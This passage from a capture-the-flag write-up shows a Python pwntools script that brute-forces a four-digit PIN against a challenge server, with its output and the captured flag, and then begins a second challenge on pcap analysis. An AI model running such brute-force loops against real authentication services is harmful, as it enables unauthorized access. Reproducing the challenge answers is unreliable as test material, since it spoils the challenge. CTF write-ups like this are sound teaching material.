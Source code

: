 ### 3. Pincode

#### Description [75]
This service needs a 4 digit pincode to authenticate... can you help me figure it out!??

Connect with:

`nc jh2i.com 50031`

Solution: As the server require 4 digit pincode so only way to enter the digit is from 0000 to 9999 so I wrote a simple script in python.

```
roo@gr4n173:~# cat pincode.py
from __future__ import print_function
from pwn import *

pin = 0
while pin < 9999:
    print(pin,end="")
    r = remote('jh2i.com', 50031)
    r.recvuntil(":")
    r.send(str("%04d" % (pin)))
    hashi = r.recvline()
    print(hashi)
    
    r.close()
    if("INCORRECT!" not in hashi):
        break
    pin+=1
```
After 37 step I got the flag and 75 points was added.

```
......                                                                                             
[*] Closed connection to jh2i.com port 50031

37[+] Opening connection to jh2i.com on port 50031: Done  
CORRECT! Here is your flag: LLS{for_i_in_0000_to_9999}                                                                                                
                                                                                                                                                      
[*] Closed connection to jh2i.com port 50031 
```

### 4. Loopback
#### Description [100]
Hello? Hello? Oh hello! Oh hello!

Download the file below.

File: [lookback.zip](public/files/loopback.zip)

Solution: As I unzipped that file I got the loopback.pcap file so I used the tshark tool to analyze the `.pcap` file and wrote a simple python script to analyze the raw file and finally I got the flag.
